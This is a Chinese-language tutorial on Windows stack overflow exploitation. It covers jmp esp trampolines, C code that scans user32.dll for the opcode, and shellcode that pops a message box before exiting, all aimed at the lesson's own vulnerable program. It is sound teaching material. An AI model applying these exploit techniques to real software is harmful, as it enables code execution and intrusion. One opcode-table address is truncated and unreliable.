








# 软件漏洞分析入门\_6\_ 初级 shellcode\_ 定位缓冲区

> 原文：[`www.pediy.com/kssd/pediy09/pediy09-349.htm`](https://www.pediy.com/kssd/pediy09/pediy09-349.htm)

> 第 6 讲 shellcode 初级\_ 定位缓冲区  
> 精勤求学，敦笃励志

跟贴中看到已经有不少朋友成功的完成了前面的所有例题，今天我们在前面的基础上，继续深入。每一讲我都会引入一些新的知识和技术，但只有一点点，因为我希望在您读完贴之后就能立刻消化吸收，这是标准的循序渐进的案例式学习方法

另外在今天开始之前，我顺便说一下后面的教学计划：

我会再用 3～4 次的讲座来阐述 shellcode 技术，确保大家能够在比较简单的漏洞场景下实现通用、稳定的溢出利用程序（`exploit`）

之后我会安排一次“期中考试”，呵呵，时间初步定在元旦的三天假期内。“期中考试”以 `exploit me` 的形式给出。不用担心，如果你掌握了我每堂课的内容，相信一定能独立完成这些 `exploit me` 的。

“优秀答卷”会有奖励，这个我和看雪正在筹划之中，不过提前告诉大家，至少我的书《0day 安全：软件漏洞分析与利用》和看雪的《加密与解密第 3 版》是少不了的，至于有没有新的赞助和奖品，请大家留意最近论坛上的通知吧。

学习是一件枯燥的事情，包括安全技术在内。我只能让这枯燥和晦涩的技术尽量变得生动有趣，但这并不意味着随随便便就能领会其中的内涵。精勤求学，敦笃励志的精神永远是需要的，不光是安全技术，学习任何东西都需要。

大家打起精神来，在学几次，说不定在获得 `exploit` 的乐趣的同时，还能赚点好处呢。呵呵。

好了，在开始今天课程之前，先回忆下第 5 讲在结束时，我提出的 windows 平台下的几个关键问题：

1：缓冲区距离返回地址间的距离确定，或者说缓冲区大小的确定。一般我们通过调试可以直接看出缓冲区的大小。但是实际漏洞利用中，有时缓冲区的大小甚至是动态 的，这台机器上返回地址是 200 个字节的偏移，下个机器就可能变成 208 字节了。

2：定位 `shellcode` 的位置。栈帧中的缓冲区地址经常是不定的，尤其是在 windows 平台下。要想在淹没返回地址后准确的返回到 `shellcode` 上，像第 5 讲那样直接在调试中查出来写死在 `password.txt` 文件中肯定不行

3：定位需要的 API。在 `shellcode` 中一般要完绑定端口建立 `socket` 侦听等功能，需要调用一系列 `windowsAPI`。这些 API 的入口地址根据操作系统的版本，补丁版本会有很大差异。像第 5 讲中那样直接把 API 地址查出来是没办法写出稳定的，通用的 `shellcode` 的

4：`shellcode` 对特定字节的敏感。在跟贴中已经有同学发现这个问题了，`strcpy`，`fscan` 对于一些特定的字节有特殊的处理，如串截断符 `0x00` 等。当限制较少时，编写 `shellcode` 还可以通过选用特殊指令来避免这些值，但有时会限制比较苛刻，这将对 `shellcode` 的开发带来很大困难——用汇编写程序本来就够难了，还要考虑指令对应的机器码的值

5：`shellcode` 的大小也很重要。即便是高手，完成一个比较通用的用于绑定端口的 `shellcode` 也要 300～400 字节。当缓冲区非常狭小时，有什么办法能够优化 `shellcode` 让它变得更精悍些呢？

这些内容就是接下来几讲我们将要关注的东西。今天我们主要来看第 2 个问题，怎样做到比较通用和稳定的确定缓冲区（`shellcode`）的位置。

回忆第 5 讲中的代码植入实验，当我们可以用越界的字符完全控制返回地址后，需要将返回地址改写成 `shellcode` 在内存中的起始地址。在实际的漏洞利用过程中，由于动态链接库的装入和卸载等原因，`windows` 进程的函数栈帧很有可能会产生“移位”，即 `shellcode` 在内存中的地址是会动态变化的，因此像第 5 讲中那样将返回地址简单地覆盖成一个定值的作法往往不能让 `exploit` 奏效。


图 1

因此，要想使 `exploit` 不致于 10 次中只有 2 次能成功地运行 `shellcode`，我们必须想出一种方法能够在程序运行时动态定位栈中的 `shellcode`。

回顾第 5 讲中实验在 `verify_password` 函数返回后栈中的情况：


图 2

绿色的线条体现了代码植入的流程：将返回地址淹没为我们手工查出的 `shellcode` 起始地址 `0x0012FAF0`，函数返回时这个地址被弹入 `EIP` 寄存器，处理器按照 `EIP` 寄存器中的地址取指令，最后栈中的数据被处理器当成指令得以执行。

红色的线条则点出了这样一个细节：在函数返回的时候，`ESP` 恰好指向栈帧中返回地址的后一个位置！

一般情况下，`ESP` 寄存器中的地址总是指向系统栈中且不会被溢出的数据破坏。函数返回时，`ESP` 所指的位置恰好是我们所淹没的返回地址的下一个位置。

注意：函数返回时 `ESP` 所指位置与函数调用约定、返回指令等有关。如 `retn 3` 与 `retn 4` 在返回后，`ESP` 所指的位置都会有所差异。


图 3

由于 `ESP` 寄存器在函数返回后不被溢出数据干扰，且始终指向返回地址之后的位置，我们可以使用上图所示的这种定位 `shellcode` 的方法来进行动态定位：

用内存中任意一个 `jmp esp` 指令的地址覆盖函数返回地址，而不是原来用手工查出的 `shellcode` 起起始地址直接覆盖

函数返回后被重定向去执行内存中的这条 `jmp esp` 指令，而不是直接开始执行 `shellcode`

由于 `esp` 在函数返回时仍指向栈区（函数返回地址之后），`jmp esp` 指令被执行后，处理器会到栈区函数返回地址之后的地方取指令执行。

重新布置 `shellcode`。在淹没函数返回地址后，继续淹没一片栈空间。将缓冲区前边一段地方用任意数据填充，把 `shellcode` 恰好摆放在函数返回地址之后。这样 `jmp esp` 指令执行过后会恰好跳进 `shellcode`。

这种定位 `shellcode` 的方法使用进程空间里一条 `jmp esp` 指令做“跳板”，不论栈帧怎么“移位”，都能够精确的跳回栈区，从而适应程序运行中 `shellcode` 内存地址的动态变化。

下面就请和我一起把第 5 讲中的 `password.txt` 文件改造成上述思路的 `exploit`，并加入安全退出的代码避免点击消息框后程序的崩溃。

我们必须首先获得进程空间内一条 `jmp esp` 指令的地址作为“跳板”。

第 5 讲中的有漏洞的密码验证程序已经加载了 `user32.dll`，所以我们准备使用 `user32.dll` 中的 `jmp esp` 指令做为跳板。这里给出两种方法获得跳转指令。第一种当然是编程了，自己动手，丰衣足食。事实上所有的问题都能够通过自己编程来解决的。这是我的程序

```c
#include <windows.h>
#include <stdio.h>
#define DLL_NAME "user32.dll"
main()
{
    BYTE* ptr;
    int position,address;
    HINSTANCE handle;
    BOOL done_flag = FALSE;
    handle=LoadLibrary(DLL_NAME);
    if(!handle)
    {
        printf(" load dll erro !");
        exit(0);
    }

    ptr = (BYTE*)handle;

    for(position = 0; !done_flag; position++)
    {
        try
        {
            if(ptr[position] == 0xFF && ptr[position+1] == 0xE4)
            {
                //0xFFE4 is the opcode of jmp esp
                int address = (int)ptr + position;
                printf("OPCODE found at 0x%x\n",address);
            }
        }
        catch(...)
        {
            int address = (int)ptr + position;
            printf("END OF 0x%x\n", address);
            done_flag = true;
        }
    }
}
```

`jmp esp` 对应的机器码是 `0xFFE4`，上述程序的作用就是从 `user32.dll` 在内存中的基地址开始向后搜索 `0xFFE4`，如果找到就返回其内存地址（指针值）。

如果您想使用别的动态链接库中的地址如“`kernel32.dll`”,“`mfc42.dll`”等；或者使用其他类型的跳转地址如 `call esp`，`jmp ebp` 等的话，也可以通过对上述程序稍加修改而轻易获得。

除此以外，还可以通过 `OllyDbg` 的插件轻易的获得整个进程空间中的各类跳转地址。

这里给出这个插件，点击下载插件 `OllyUni.dll`：**OllyUni.rar**

把它放在 `OllyDbg` 目录下的 `Plugins` 文件夹内，重新启动 `OllyDbg` 进行调试，在代码框内单击右键，就可以使用这个插件了，如图：


图 4

搜索结束后，点击 `OllyDbg` 中的“L”快捷按钮，就可以在日志窗口中查看搜索结果了。

运行我们自己编写程序搜索跳转地址得到的结果和 `OllyDbg` 插件搜到的结果基本相同，如图：


图 5

注意：跳转指令的地址将直接关系到 `exploit` 的通用性。事实上 `kernel32.dll` 与 `user32.dll` 在不同的操作系统版本和补丁版本中，也是有所差异的。最佳的跳转地址位于那些“千年不变”且被几乎所有进程都加载的模块中。选择哪里的跳转地址将直接影响到 `exploit` 的通用性和稳定性。

这里不妨采用位于内存 `0x77DC14CC` 处的跳转地址 `jmp esp` 作为定位 `shellcode` 的“跳板”————我并不保证这个地址通用，请你在自己的机器上重新搜索。

在制作 `exploit` 的时候，还应当修复第 5 讲中的 `shellcode` 无法正常退出的缺陷。有几种思路，可以恢复堆栈和寄存器之后，返回到原来的程序流程，这里我用个简单点的偷懒的办法，在调用 `MessageBox` 之后通过调用 `exit` 函数让程序干净利落的退出。

这里仍然用 `dependency walker` 获得这个函数的入口地址。如图，`ExitProcess` 是 `kernel32.dll` 的导出函数，故首先查出 `kernel32.dll` 的加载基址：`0x7C800000`，然后加上函数的偏移地址：`0x0001CDDA`，得到函数入口最终的内存地址 `0x7C81CDDA`。


图 6

写出的 `shellcode` 的源代码如下：

```c
#include <windows.h>
int main()
{
    HINSTANCE LibHandle;
    char dllbuf[11] = "user32.dll";
    LibHandle = LoadLibrary(dllbuf);
    _asm{
                sub sp,0x440
                xor ebx,ebx
                push ebx  // cut string
                push 0x74736577
                push 0x6C696166//push failwest

                mov eax,esp  //load address of failwest
                push ebx    
                push eax
                push eax
                push ebx

                mov eax,0x77D804EA  // address should be reset in different OS
                call eax  //call MessageboxA

                push ebx
                mov eax,0x7C81CDDA
                call eax  //call exit(0)
    }
}
```

为了提取出汇编代码对应的机器码，我们将上述代码用 `VC6.0` 编译运行通过后，再用 `OllyDbg` 加载可执行文件，选中所需的代码后可直接将其 `dump` 到文件中：


图 7

TIPS：不如直接在汇编码中加一个 `__asm int3`，`OD` 启动后会自动停在 `shellcode` 之前。

通过 `IDA Pro` 等其他反汇编工具也可以从 `PE` 文件中得到对应的机器码。当然如果熟悉 `intel` 指令集的话，也可以为自己编写专用的由汇编指令到机器指令的转换工具。

现在我们已经具备了制作新 `exploit` 需要的所有信息：

搜索到的 `jmp esp` 地址，用作重定位 `shellcode` 的“跳板”：`0x77DC14CC`

修改后并重新提取得到的 `shellcode`：

机器代码（16 进制）    汇编指令     注释
`33 DB`     `XOR EBX,EBX`    压入 `NULL` 结尾的”`failwest`”字符串。之所以用 `EBX`  
清零后入栈做为字符串的截断符，是为了避免  
“`PUSH 0`”中的 `NULL`，否则植入的机器码会被  
`strcpy` 函数截断。
`53`     `PUSH EBX`     
`68 77 65 73 74`     `PUSH 74736577`     
`68 66 61 69 6C`     `PUSH 6C696166`  


> 8B C4 MOV EAX,ESP EAX 里是字符串指针  

> 53 PUSH EBX 四个参数按照从右向左的顺序入栈，分别为:  

> (0,failwest,failwest,0)  

> 消息框为默认风格，文本区和标题都是“failwest”  

> 50 PUSH EAX  

> 50 PUSH EAX  

> 53 PUSH EBX  

> B8 EA 04 D8 77 MOV EAX, 0x77D804EA 调用 MessageBoxA。注意不同的机器这  
> 里的函数入口地址可能不同，请按实际值填入!  

> FF D0 CALL EAX  

> 53 PUSH EBX 调用 exit(0)。注意不同的机器这里的函数入口地址可  
> 能不同，请按实际值填入!  

> B8 DA CD 81 7C MOV EAX, 0x7C81CD  

> FF D0 CALL EAX  

按照第 5 讲中对栈内情况的分析，我们将 `password.txt` 制作成如下形式：



图 8

现在再运行密码验证程序，怎么样，程序退出的时候不会报内存错误了吧。虽然还是同样的消息框，但是这次植入代码的流程和第 5 讲中已有很大不同了，最核心的地方就是使用了跳转地址定位 shellcode，进程被劫持的过程正如图 3 中我们设计的那样。你得到那个熟悉的消息框了么？

不要小看着一点点改进。这个改进在 windows 漏洞利用的历史上有着举足轻重的里程碑意义。在溢出研究开始，大家都关注于 linux 系列的平台，阻碍大家研究 windows 平台下溢出的一个非常重要的问题就是栈帧移位引起的缓冲区位置很难确定。

我把这些技术点分开来一个一个的讲，是为了方便您的理解，也是为了加深印象。当您彻底领会了这些技术点之后，在后面讲到用 framework 的方式编写 exploit 的时候，您就能更轻松的掌握了。

好，今天到此为止。实验成功了不要忘了在跟贴中吱——吱——吱啊，呵呵。下次见。

引用:

* * *

*最初由 **kingwrcy**发布* (帖子 393796) 是如何得到参数的地址的？  
68 77 65 73 74 PUSH 74736577  
68 66 61 69 6C PUSH 6C696166
这 2 个地址应该是"failwest"的地址吧？是如何得到这 2 个地址的呢？
还有 cpu 如何知道一个参数已经结束？接下来的是第...

* * *

|

| --- |

其实  
`push ebx` // cut string  
`push 0x74736577`  
`push 0x6C696166`//push failwest  
并不是压得参数本身，只是把 failwest 存入内存，这里为了简单，就直接存到栈里了，当然存任何地方都可以

首先记得 `ESP` 永远指向栈顶，那么：

```
PUSH ebx
```
这句就是在栈里放个 0，因为 `EBX` 已经在前一句清 0 了，这时 `ESP` 指向这个 0

top  
0 《---esp  
bottom

```
push 0x74736577
```
向栈中压入“west”。这时 `ESP` 指向“west”，当然后面跟着先前的 0，刚好构成字符串

top  
west 《----esp  
0  
bottom

```
push 0x6C696166
```
向栈中压入“fail”。这是 `ESP` 指向“fail”，当然后面跟着先前的 west 和 0

top  
fail 《---esp  
west  
0  
bottom

所以这时的 `ESP` 值相当于指向字符串 failwest 的指针，把它保存在 `EAX` 里边

are we clear now?

我们最终的参数只是调用前的四次压栈，两次 `EBX`（0），两次 `EAX`（字符串指针）

至于函数怎么用这些参数，请你回去精读第 3 讲中的内容，或者自己写点传参数的例子，亲自动手跟几遍就彻底明白了这是搞清问题的最有效办法

4dd466d0e1e0cc123afbe504da2462ca
